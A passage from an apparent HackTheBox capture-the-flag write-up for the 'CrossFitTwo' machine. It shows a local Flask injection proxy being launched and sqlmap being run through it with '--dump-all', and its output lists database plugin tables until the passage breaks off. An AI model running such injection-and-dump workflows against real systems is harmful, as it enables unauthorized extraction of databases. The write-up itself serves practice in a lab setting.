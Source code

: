 Run it:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ python3 inject_server.py
 * Serving Flask app "server" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://0.0.0.0:5000/ (Press CTRL+C to quit)
```

And by running ```sqlmap``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ sqlmap -u http://localhost:5000/inject?param=1  --dump-all
...
Database: information_schema                                                                                                                                                                 
Table: ALL_PLUGINS
[106 entries]
+-------------------------------+
| PLUGIN_NAME                   |
+-------------------------------+
| ARCHIVE                       |
| Aria                          |
| AUDIT_NULL                    |
| auth_0x0100                   |
| binlog                        |
| BLACKHOLE                     |
| cleartext_plugin_server       |
| CLIENT_STATISTICS             |
| CSV                           |
| daemon_example                |
| debug_key_management          |
| ed25519                       |
| EXAMPLE                       |
| example_key_management        |
| FEDERATED                     |
| FEDERATED                     |
| FEEDBACK                      |
| file_key_management           |
| GEOMETRY_COLUMNS              |
| handlersocket                 |
| INDEX_STATISTICS              |
| inet6                         |
| inet6_aton                    |
| inet6_ntoa                    |
| inet_aton                     |
| inet_ntoa                     |
| InnoDB                        |
| INNODB_BUFFER_PAGE            |
| INNODB_BUFFER_PAGE_LRU        |
| INNODB_BUFFER_POOL_STATS      |
| INNODB_CMP                    |
| INNODB_CMPMEM                 |
| INNODB_CMPMEM_RESET           |
| INNODB_CMP_PER_INDEX          |
| INNODB_CMP_PER_INDEX_RESET    |
| INNODB_CMP_RESET              |
| INNODB_FT_BEING_DELETED       |
| INNODB_FT_CONFIG              |
| INNODB_FT_DEFAULT_STOPWORD    |
| INNODB_FT_DELETED             |
| INNODB_FT_INDEX_CACHE         |
```